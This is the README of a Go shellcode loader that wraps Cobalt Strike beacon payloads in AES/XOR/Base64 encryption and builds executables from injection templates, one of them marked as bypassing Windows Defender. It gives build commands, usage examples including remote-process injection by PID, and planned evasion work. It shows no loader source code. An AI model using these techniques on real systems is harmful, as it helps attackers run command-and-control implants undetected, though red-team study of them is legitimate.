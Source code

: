 <p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw binary payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b> - I implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying for [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8). This is mainly for protecting Cobalt Strike payload when it's moved over to the target host. The final compiled payload will include a decrypt function within.

<b>Templates</b> - Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                        Last update: 06/07/21
    +--------------------------------------+-----------+------------------+
    | Techniques                           | PID       | Bypass Defender  |
    +--------------------------------------+-----------+------------------+
    | win32_VirtualProtect.tmpl            |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateFiber.tmpl               |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThreadNative.tmpl  | Required  |        Yes       | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThread.tmpl              |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EtwpCreateEtwThread.tmpl       |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_Syscall.tmpl                   |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadpoolWait.tmpl      |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumerateLoadedModules.tmpl    |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumChildWindows.tmpl          |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThread.tmpl        | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_RtlCreateUserThread.tmpl       | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadNative.tmpl        |           |        No        | 
    +--------------------------------------+-----------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64
    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe

    ./bankai -i beacon64.bin -o payload.exe -t win64_CreateRemoteThread.tmpl -a 64 -p 7720
    [INFO] Key: 3mOL2Ne5XIW4xCieiR7cPmHtw4o737Do
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateRemoteThread.tmpl
    [INFO] InputFile: beacon64.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
[] Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found
[] Test these shellcodes with modified malleableC2 profiles 
[] Add [BananaPhone](https://github.com/C-Sto/BananaPhone) for templates